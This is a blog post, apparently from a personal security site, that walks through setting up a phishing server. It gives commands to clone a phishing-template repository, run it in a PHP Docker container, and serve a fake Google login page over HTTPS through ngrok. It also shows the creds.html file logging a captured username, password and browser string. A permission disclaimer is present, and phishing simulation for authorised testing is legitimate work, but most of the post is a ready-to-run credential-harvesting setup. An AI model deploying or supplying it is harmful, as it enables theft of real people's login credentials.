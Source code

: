 ```yaml
---
title: 'Fly Phishing'
slug: fly-phishing
date: 2020-01-13
autotoc: true
excerpt: true
layout: post
collection: all, linux, security, phishing
---
```


This article will walk through setting up a phishing server on the fly. 

**This is only legal to do with written permission from an organization or user. I am not liable for this information being misuse and I do not endorse illegal activity using these methods.**

## Quick Setup:

```bash
git clone https://github.com/heywoodlh/lokis-portal.git ~/Documents/lokis-portal
sudo chown -R 33:33 ~/Documents/lokis-portal/
docker run -d --name lokis-portal -p 80:80 -v "$HOME"/Documents/lokis-portal:/var/www/html php:7-apache-buster
```
</br>


Notice the change of ownership to user ID and group to 33. This is the user/group of the `www-data` user for the `php:7-apache-buster` Docker container and that user will need permission to write to `creds.html`.


![alt text](https://raw.githubusercontent.com/heywoodlh/heywoodlh.io/master/resources/pictures/google-phishing.png "Google Phishing Page")


The Google phishing page will be available at [http://localhost/google/](http://localhost/google). The [root directory](http://localhost) has a list of the templates that are available for phishing with. At the time of writing only the Google phishing page is working, but maybe future me will be proactive and build out/fix the rest of the templates.

The phishing templates are available [at Github](https://github.com/heywoodlh/lokis-portal). Feel free to reuse them as needed.

### Get Creds:

When running the command above, a file called `creds.html` will be accessible in `~/Documents/lokis-portal/creds.html`. Whenever a login occurs, that file will populate with logs. For example:

```bash
2020-01-13 11:52:25pm: accounts.google.com: 172.17.0.1 --- testing --- password --- Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
```
</br>



### Serve Via HTTPS:

Use Ngrok or a reverse proxy to easily serve the web page via HTTPS. For example, with Ngrok:

```bash
ngrok http 80
```
</br>
This will provide you with an HTTPS link that you could phish from.

